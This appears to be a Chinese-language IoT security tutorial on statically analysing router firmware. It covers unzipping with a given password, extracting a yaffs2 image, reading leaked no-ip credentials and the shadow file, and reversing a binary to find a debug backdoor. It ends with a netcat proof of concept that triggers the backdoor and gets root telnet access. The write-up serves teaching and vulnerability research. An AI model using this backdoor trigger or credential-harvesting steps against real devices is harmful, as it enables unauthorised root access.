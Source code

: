# 静态分析 IoT 固件

得到固件后，若直接打开，会发现该固件被加了密，无法直接解压缩，这是厂商对该固件做了保护，防止大家逆向分析他的固件。

![1](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/1.png)

通过frackzip工具可以破解该zip的密码，时间要挺久的，我直接告诉你吧，密码是beUT9Z。
![2](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/2.png)

解压后发现文件夹中有多个.yaffs2后缀的文件，这些都是固件的文件。
![3](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/3.png)

yaffs2里有几个看上去是recovery的镜像，核心的应该是2K-mdm-image-mdm9625.yaffs2 ，我们下面就来提取该文件，我首先用binwalk来提取它，但提取出来的文件乱七八糟，不知道什么原因，后来看网上推荐直接用yaffs的原生工具unyaffs提取，就可以了，文件系统清晰明了。
```
unyaffs 2K-mdm-image-mdm9625.yaffs2 yaffs2-root/
```
![4](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/4.png)


接下来我们查找该路径下的所有.conf文件，.conf文件多是配置文件，有可能从中可以发现敏感的信息。
```
find . -name '*.conf'
```
![5](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/5.png)

其中的inadyn-mt.conf文件引起了我们注意，这是no-ip应用的配置文件，no-ip就是一个相当于花生壳的东西，可以申请动态域名。我们从中可以发现泄露的no-ip的登陆账号及密码。
```
cat etc/inadyn-mt.conf
```
![6](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/6.png)

除了上述泄露的no-ip账号密码，我们还从shadow文件中找到了root账号的密码，通过爆破可以得到root的密码为1234。
```
cat ~/yaffs2-root/etc/shadow
```
![7](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/7.png)

其实并不止有.conf文件会泄露信息，还有很多其他后缀的敏感文件会泄露信息，我们接下来使用firmwalker工具来自动化遍历该固件系统中的所有可疑文件。
```
git clone https://github.com/craigz28/firmwalker.git
```
![8](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/8.png)

命令如下，firmwalker会将结果保存到firmwalker.txt。
```
./firmwalker.sh ~/yaffs2-root/
```
![9](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/9.png)

看了下该工具的源码，没啥亮点，就是遍历各种后缀的文件。
![10](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/10.png)

后缀都在data文件夹中的各个配置文件中。
![11](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/11.png)

分析完敏感的配置文件后，我们接下来分析存在风险的二进制程序。查看自启动的程序，一个start_appmgr脚本引起了我们注意，mgr一般就是主控程序的意思。
![12](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/12.png)

该脚本会在开机的时候以服务的形式运行/bin.appmgr程序。
![13](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/13.png)

通过IDA进行反编译，在main函数中发现了一个管理员当时为了方便调试留下的后门，只要连接该固件的39889端口并发送HELODBG的字符串，就可以进行远程执行命令。
![14](https://github.com/G4rb3n/IoT_Sec_Tutorial/blob/master/02-静态分析IoT固件/14.png)

POC如下：

```
user@kali:~$ echo -ne "HELODBG" | nc -u 192.168.1.1 39889 
Hello 
^C 
user@kali:~$ telnet 192.168.1.1 
Trying 192.168.1.1... 
Connected to 192.168.1.1. Escape character is '^]'.   
OpenEmbedded Linux homerouter.cpe     
msm 20141210 homerouter.cpe   
/ # 
id uid=0(root) gid=0(root) 
/ # 
exit 
Connection closed by foreign host. 
user@kali:~$
```

除了以上这些，该固件还存在多个漏洞，详细的报告可以参考：
```
https://www.anquanke.com/post/id/84671
```
